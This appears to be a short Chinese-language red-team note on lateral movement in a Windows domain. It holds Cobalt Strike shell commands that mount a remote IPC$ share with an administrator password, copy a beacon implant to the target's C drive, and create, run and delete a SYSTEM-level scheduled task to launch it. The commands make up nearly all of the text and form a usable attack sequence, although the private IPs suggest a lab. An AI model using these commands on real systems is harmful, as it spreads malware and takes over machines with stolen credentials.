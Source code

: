 `Windows2012`以上系统使用`schtasks`命令创建计划任务执行木马上线

```bash
# 建立ipc连接：
shell net use \\192.168.91.133\ipc$ "Abcd1234" /user:god.org\administrator

# 复制文件到其C盘
shell copy beacon.exe \\192.168.91.133\c$

# 删除 IPC$ 链接
shell net use \\192.168.91.133\ipc$ /del

# 创建任务对应执行文件
以远程系统的system用户运行c:\artifact.exe，计划任务的名字为test1

shell SCHTASKS /Create /S 192.168.91.133 /U administrator /P "Abcd1234" /SC ONCE /ST 14:56 /TN test1 /TR c:\artifact.exe /RU system

# 运行beacon任务
shell SCHTASKS /Run /S 192.168.91.133 /U administrator /P "Abcd1234"  /I /TN "test1"

# 删除建立的计划任务
shell SCHTASKS /Delete /S 192.168.91.133 /U administrator /P "Abcd1234" /TN "test1" /F
```

[![](assets/1702372940-544437ee13ef46f766c3f05aee85b3ab.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/4.png)

[![](assets/1702372940-52b4064d92ba8635dbe48fe5de7a5e39.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/5.png)
